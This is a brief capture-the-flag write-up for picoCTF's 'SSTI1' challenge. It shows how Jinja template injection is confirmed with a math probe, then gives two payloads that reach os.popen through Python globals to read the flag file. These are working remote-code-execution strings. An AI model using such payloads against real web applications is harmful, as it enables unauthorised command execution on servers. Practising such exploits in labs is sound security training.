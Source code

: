 ## SSTI1

**Server Side Template Injection** [link](https://play.picoctf.org/practice/challenge/492)

**Description**
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps!

> Uses Python Jinja Template Engine. confirmed by ``{{ 7*7 }}``
> Finally executed with 
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

//check this too//
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(‘cat flag’).read() }}
```

